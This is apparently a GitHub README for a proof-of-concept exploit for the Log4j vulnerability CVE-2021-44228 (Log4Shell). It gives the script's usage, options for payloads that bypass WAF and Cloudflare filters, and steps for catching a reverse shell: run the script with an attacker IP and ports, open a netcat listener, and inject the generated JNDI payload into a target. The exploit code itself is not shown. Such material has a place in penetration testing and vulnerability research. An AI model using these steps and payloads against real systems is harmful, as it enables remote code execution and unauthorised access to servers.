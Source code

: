 # Log4j Simple Exploit
A Proof-Of-Concept Exploit for ***CVE-2021-44228*** vulnerability.

Log4j, which is used to log security and performance information, impacts upwards of 3 billion devices that use Java across a variety of consumer and enterprise services, websites and applications, as well as medical devices and supporting systems.
***Note: This is not a "point and click" exploit. The initial trigger payload will be generated, but injecting it into the appropriate place (i.e. HTTP header/chat/etc.) will be up to the user.***

## Prerequisite's
- python3
- pip install -r requirements.txt
- Install [jdk1.8.0_20](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) and add bin folder to enviroment variable

```
usage: python CVE-2021-44228-exploit.py --help 
[!] CVE: CVE-2021-44228
[!] This is simple Log4j exploit to get reverse shell
[!] Reference: https://akashpatil.me/log4j-guide-book.html

usage: CVE-2021-44228-exploit.py [-h] [--userip userip] [--webport webport] [--lport lport] [-b bypass]

log4shell Reverse shell exploit

optional arguments:
  -h, --help            show this help message and exit
  --userip userip       Enter IP for LDAPRefServer & Shell
  --webport webport     listener port for HTTP port
  --lport lport         Netcat Port
  -b bypass, --bypass bypass
                        Type of bypass payload. None/WAF/Methods/Cloudflare. Methods - "ldap", "jndi", or the
                        ${lower:x} method restriction bypass
```

##### Example:
1) Run the script for Linux OS with bypass payload of method
```
python poc-csw.py --userip private-ip --webport 8888 --lport 9001 -b method
```
![](images/img1.png)
2) run netcat on port 9001 in your local machine 
```
nc -lvnp 9001
```
3) Copy the 'Try me' payload to bypass methods restriction and use it input variable to get shell in netcat
***Note:*** If No bypass is chosen use 'Send me' payload
![](images/img2.png)
![](images/img3.png)


# Reference
- https://akashpatil.me/log4j-guide-book.html
- https://github.com/kozmer/log4j-shell-poc